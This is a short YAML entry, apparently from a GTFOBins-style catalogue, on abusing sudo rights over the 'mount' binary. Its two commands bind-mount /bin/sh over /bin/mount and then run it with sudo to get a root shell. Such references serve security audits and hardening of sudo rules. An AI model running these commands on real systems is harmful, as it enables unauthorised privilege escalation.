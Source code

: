 ```yaml
---
functions:
  sudo:
    - description: Exploit the fact that `mount` can be executed via `sudo` to *replace* the `mount` binary with a shell.
      code: |
        sudo mount -o bind /bin/sh /bin/mount
        sudo mount
---
```

